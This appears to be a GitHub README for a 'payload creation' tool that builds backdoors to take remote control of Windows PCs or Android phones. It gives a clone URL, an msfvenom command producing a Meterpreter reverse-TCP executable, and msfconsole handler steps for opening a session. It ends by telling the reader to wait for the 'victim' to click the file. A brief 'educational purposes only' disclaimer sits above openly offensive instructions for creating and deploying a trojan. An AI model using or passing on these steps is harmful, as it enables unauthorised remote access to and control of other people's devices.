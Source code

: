 +]Warning!!
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of e not responsible for any damages due to improper use

[+]About
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …

[+]How to Download
open you terminal git clone https://github.com/Essam0o/Payload-Injection.git

[+]How to Run
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su
msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe

Then wait to complete download the file and check your path on your os

msfconsole

wiat proccess//

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost enter your ip

set lport 4444

run

HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK OR EXE FILE
